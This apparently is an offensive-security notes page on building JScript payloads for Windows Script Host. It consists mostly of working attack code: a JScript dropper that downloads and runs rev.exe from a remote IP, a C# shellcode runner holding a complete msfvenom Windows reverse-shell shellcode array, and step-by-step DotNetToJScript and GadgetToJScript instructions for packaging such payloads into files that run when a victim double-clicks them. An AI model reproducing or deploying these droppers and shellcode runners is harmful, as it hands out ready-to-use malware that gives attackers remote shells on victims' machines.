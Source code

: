 # ⭕ JScript

## <mark style="color:red;">WSH</mark>

VBScript and Jscript are executed by the windows script host. they run by the windows scripting host (WSH). they run as a console application (cscript.exe) or a GUI app (wscript.exe). the engines are not implemented in wscript.exe or cscript.exe. but in vbscript.dll and jscript.dll. these are both activeX DLLs which contain activeX objects.

## <mark style="color:red;">Simple Dropper</mark>

```vba
var url = "http://192.168.56.1/rev.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();
if (Object.Status == 200)
{
	var Stream = WScript.CreateObject('ADODB.Stream');
	Stream.Open();
	Stream.Type = 1;
	Stream.Write(Object.ResponseBody);
	Stream.Position = 0;

	Stream.SaveToFile("rev.exe", 2);
	Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("rev.exe");
```

## <mark style="color:red;">DotNetToJScript</mark>

{% embed url="https://github.com/tyranid/DotNetToJScript" %}

{% embed url="https://www.whiteoaksecurity.com/blog/2020-1-16-advanced-ttps-dotnettojscript-part-1" %}

A tool for generating a JScript which bootstraps an arbitrary .NET Assembly and class. this can be used to create advanced and complicated jscript payloads from a C# source code.

#### Open the project in visual studio, the `TestClass.cs`   will hold our custom C# payload for example a shellcode runner:

{% code title="TestClass.cs" %}
```csharp
//    This file is part of DotNetToJScript.
//    Copyright (C) James Forshaw 2017
//
//    DotNetToJScript is free software: you can redistribute it and/or modify
//    it under the terms of the GNU General Public License as published by
//    the Free Software Foundation, either version 3 of the License, or
//    (at your option) any later version.
//
//    DotNetToJScript is distributed in the hope that it will be useful,
//    but WITHOUT ANY WARRANTY; without even the implied warranty of
//    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
//    GNU General Public License for more details.
//
//    You should have received a copy of the GNU General Public License
//    along with DotNetToJScript.  If not, see <http://www.gnu.org/licenses/>.

using System;
using System.Diagnostics;
using System.Runtime.InteropServices;


[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
    dwMilliseconds);

        public TestClass()
        {
            // msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=6969 exitfunc=thread  -f csharp -a x64
            byte[] buf = new byte[460] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x1b,0x39,0xc0,0xa8,0x38,0x01,0x41,0x54,
0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };
            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }

```
{% endcode %}

{% hint style="info" %}
The payload should be placed inside the `TestClass` class and replace the default content of the class.&#x20;
{% endhint %}

#### after replacing the payload, we need to change the architecture for which we want to build the `ExampleAssembly`   project inside the solution:

![](<../../.gitbook/assets/image (33).png>)

#### set the architecture in the new window (same as the payload architecture):

![](<../../.gitbook/assets/image (29).png>)

![](<../../.gitbook/assets/image (48).png>)

![](<../../.gitbook/assets/image (24).png>)

![](<../../.gitbook/assets/image (31).png>)

after building the solution, copy the `ExampleAssembly.dll,` `NDesk.Options.dll` and `DotNetToJScript.exe` files in the same folder and run the following command to create a new jscript payload:

```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```

when the victim double clicks the jscript file, the shellcode will be executed.

## <mark style="color:red;">GadgetToJScript</mark>

{% embed url="https://github.com/med0x2e/GadgetToJScript" %}

```csharp
#Create a constructor. Save as source.cs

using System;
using System.Diagnostics;

public class Same
 { 
  public Same()
   {
    Process.Start("calc.exe");
   }
 }
```

```
GadgetToJScript.exe -i source.cs -w js -r <Reference assembly> -o out.txt -f
```
